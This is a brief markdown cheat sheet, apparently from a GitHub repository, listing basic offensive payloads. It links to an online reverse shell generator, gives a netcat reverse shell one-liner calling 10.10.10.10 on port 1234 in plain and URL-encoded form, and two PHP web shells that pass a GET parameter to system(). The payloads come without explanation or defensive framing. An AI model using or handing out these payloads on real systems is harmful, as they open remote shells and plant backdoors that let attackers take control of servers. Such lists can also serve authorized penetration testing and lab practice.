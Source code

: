 # Basic things
## online reverse shell editor
* https://www.revshells.com/
## netcat reverse shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
* rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.10.10%201234%20%3E%2Ftmp%2Ff
## php web shell
* &lt;?php system($_GET['cmd']); ?&gt;
* &lt;?php system($_GET[1]); ?&gt;

